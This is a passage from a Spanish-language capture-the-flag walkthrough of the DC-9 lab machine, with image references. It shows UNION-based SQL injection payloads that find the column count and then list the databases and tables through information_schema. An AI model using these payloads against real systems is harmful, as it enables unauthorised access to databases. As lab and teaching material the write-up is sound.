 Primero obtengo el numero de columnas añadiendo el valor null por cada columna hasta que obtenga respuesta con la siguiente consulta:

```bash
Mary' union select null,null,null,null,null,null-- -
```

Después paso a listar las bases de datos que hay, con la siguiente consulta:

```sql
Mary' union select null,schema_name,null,null,null,null from information_schema.schemata-- -
```

![Untitled](DC-9%205a1a383f004f41a7b065312771f311ab/Untitled%202.png)

Vemos que existen las bases de datos Staff y users.

El siguiente paso que realizo es listar las tablas que contiene la base de datos users

```sql
Mary' union select null,table_name,null,null,null,null from information_schema.tables where table_schema='users'-- -

```

![Untitled](DC-9%205a1a383f004f41a7b065312771f311ab/Untitled%203.png)
